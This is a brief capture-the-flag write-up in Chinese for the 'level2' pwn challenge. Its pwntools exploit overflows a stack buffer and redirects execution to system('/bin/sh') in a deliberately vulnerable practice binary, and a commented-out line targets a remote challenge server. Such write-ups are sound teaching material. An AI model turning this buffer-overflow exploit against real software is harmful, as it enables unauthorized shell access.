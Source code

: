 # level2

从level2进程本身找出system函数和"/bin/sh"字符串即可。  

EXP：  
```python
import pwn

pwn.context(arch='i386', os='linux', log_level='debug')

p = pwn.process('./level2')
#p = pwn.remote('220.249.52.133', 32564)

e = pwn.ELF('./level2')
system_addr = pwn.p32(e.plt['system'])
sh_addr = pwn.p32(next(e.search(b'/bin/sh')))

payload = b'A' * 0x88 + b'B' * 4 + system_addr + b'C' * 4 + sh_addr
p.sendlineafter(b'Input:', payload)

p.interactive()
```